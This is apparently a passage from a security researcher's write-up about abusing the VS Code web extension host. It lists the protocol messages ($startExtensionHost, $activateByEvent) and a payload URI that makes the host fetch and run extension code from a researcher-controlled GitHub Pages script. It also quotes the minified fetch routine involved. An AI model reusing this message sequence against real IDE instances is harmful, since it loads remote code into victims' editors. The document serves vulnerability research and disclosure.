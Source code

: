 ````js
app.listen(3000, function () {
    console.log('Example app listening on port 3000!');
    });

````

In message.txt from my local VSCode web instance, I could again see nothing related to extension calls like it was in Gitlab which was cool as it made it similar to IDX case.

From the minified Gitlab poc we are aware of the important request messages which we need to sent, the payload to make it fetch the extension url from our server

````
$startExtensionHost >
$activateByEvent >
$initializeWorkspace >

[...]
O{"$mid":1,"path":"/1.js","scheme":"https","authority":"sudistark.github.io"}
````

First I will ensure if I am able to reach the `$startExtensionHost` method or not with the message.txt file and yeah it seemed to work. Next goal was to add the `$activateByEvent` message which is sent just after the `$startExtensionHost`.

I copied this from Github:
*onStartupFinished* is registered by the Merge Conflict extension

````
$activateByEvent,["onStartupFinished",0]
````

![Pasted image 20250725182206.png](/tmp/cdn-images/Pasted%20image%2020250725182206.png)
<br/>
After this it should call the code block which is responsible for fetching the extension source.

````js
                async vb($, v, n) {
                    v = v.with({
                        path: S(v.path, ".js")
                    });
                    const o = $?.identifier.value;
                    o && performance.mark(`code/extHost/willFetchExtensionCode/${o}`);
                    const t = I.URI.revive(await this.C.$asBrowserUri(v))
                      , r = await fetch(t.toString(!0));
````
